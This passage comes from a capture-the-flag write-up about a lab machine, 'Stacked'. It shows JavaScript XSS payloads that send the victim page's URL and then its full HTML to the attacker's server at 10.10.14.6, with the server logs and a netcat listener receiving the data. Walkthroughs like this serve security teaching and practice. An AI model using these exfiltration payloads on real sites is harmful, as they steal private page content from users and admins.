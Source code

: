 #### URL

In previous challenges where I had this kind of XSS access (like [CrossFit](/2021/03/20/htb-crossfit.html#identify-xss) and [BankRobber](/2020/03/07/htb-bankrobber.html#xss---admin-login)), I had a specific target in mind, some action I wanted to do as the admin. In this case, I’ve seen very little of the site, so I’ll need to do some orienting.

I’ll write a simple JS script that sends the current location of the page back to my server:

```

var exfilreq = new XMLHttpRequest();    
exfilreq.open("GET", "http://10.10.14.6/" + document.location, false);    
exfilreq.send(); 

```

After a minute, there’s a request to get the payload, followed by a request showing the url:

```
10.10.11.112 - - [24/Aug/2021 11:42:03] "GET /xss-1.js HTTP/1.1" 200 -
10.10.11.112 - - [24/Aug/2021 11:42:04] code 404, message File not found
10.10.11.112 - - [24/Aug/2021 11:42:04] "GET /http://mail.stacked.htb/read-mail.php?id=2 HTTP/1.1" 404 -

```

Nice. In that 404 I can see that the current location my script is executing in is `http://mail.stacked.htb/read-mail.php?id=2`. That looks like some kind of mail endpoint. I’ll try setting that subdomain in `/etc/hosts` and visiting it, but it must be only on localhost.

#### Source

I can update the JavaScript request slightly to pull the full page HTML:

```

var exfilreq = new XMLHttpRequest();    
exfilreq.open("POST", "http://10.10.14.6:9001/", false);    
exfilreq.send(document.documentElement.outerHTML); 

```

I’ll need a different port for the exfil as the Python HTTP server doesn’t handle POST requests. I’ll start `nc` listening on 9001. On sending the request again, after a minute, there’s a request for the JS:

```
10.10.11.112 - - [24/Aug/2021 11:51:03] "GET /xss-2.js HTTP/1.1" 200 -

```

Then a POST to `nc`:

```

oxdf@hacky$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.112] 45486 
POST / HTTP/1.1                                            
Host: 10.10.14.6:9001
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mail.stacked.htb/read-mail.php?id=2        
Content-Length: 7954                                       
Content-Type: text/plain;charset=UTF-8
Origin: http://mail.stacked.htb                            
Connection: keep-alive
```